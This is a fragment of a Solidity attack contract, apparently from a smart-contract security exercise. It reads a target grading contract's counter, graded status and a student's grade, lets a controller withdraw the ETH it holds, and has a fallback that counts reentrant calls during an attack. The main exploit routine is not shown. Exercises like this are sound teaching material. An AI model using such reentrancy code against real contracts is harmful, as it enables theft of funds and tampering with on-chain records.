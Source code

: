 ```solidity
     * @return _balance Contract ETH balance
     */
    function getAttackStatus() external view returns (
        uint256 _counter,
        bool _graded,
        uint256 _studentGrade,
        uint256 _balance
    ) {
        // Get counter
        (bool success1, bytes memory data1) = TARGET.staticcall(
            abi.encodeWithSignature("counter(address)", address(this))
        );
        _counter = (success1 && data1.length >= 32) ? abi.decode(data1, (uint256)) : 0;
        
        // Get graded status
        (bool success2, bytes memory data2) = TARGET.staticcall(
            abi.encodeWithSignature("isGraded(address)", address(this))
        );
        _graded = (success2 && data2.length >= 32) ? abi.decode(data2, (bool)) : false;
        
        // Get student grade
        (bool success3, bytes memory data3) = TARGET.staticcall(
            abi.encodeWithSignature("students(string)", STUDENT_NAME)
        );
        _studentGrade = (success3 && data3.length >= 32) ? abi.decode(data3, (uint256)) : 0;
        
        // Get balance
        _balance = address(this).balance;
    }

    /**
     * @notice Emergency withdrawal function
     * @dev Allows controller to withdraw any ETH from contract
     */
    function withdraw() external onlyController {
        uint256 balance = address(this).balance;
        require(balance > 0, "No balance to withdraw");
        payable(controller).transfer(balance);
    }

    /**
     * @notice Fallback function for any unhandled calls
     */
    fallback() external payable {
        // Handle any unexpected calls during attack
        if (attacking && msg.value > 0) {
            reentryCount++;
            emit ReentryExecuted(reentryCount);
        }
    }
}
```

---